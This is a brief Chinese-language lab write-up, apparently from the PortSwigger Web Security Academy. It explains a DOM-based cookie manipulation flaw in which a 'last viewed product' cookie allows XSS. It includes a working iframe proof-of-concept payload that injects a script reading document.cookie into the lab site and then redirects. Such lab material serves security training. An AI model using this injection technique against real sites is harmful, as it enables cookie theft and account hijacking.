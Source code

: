 

![](images/0E4E58996B544A9EBE3FDD350ABB89EFclipboard.png)

首页的js脚本，将url地址获取的值存入cookie，可能造成危害



![](images/5FB4AC813573452889D61B47DE53E955clipboard.png)

last viewed product按钮存在xss漏洞



所以可以构造poc：

```javascript
<iframe src="https://ac5b1fa21e194aa1815019e100d200dc.web-security-academy.net/product?productId=1
&'><script>alert(document.cookie)</script>" 
onload="if(!window.x)
this.src='https://ac5b1fa21e194aa1815019e100d200dc.web-security-academy.net';
window.x=1;">
```

当受害者访问该poc时。iframe标签加载xss。之后重定向到网站首页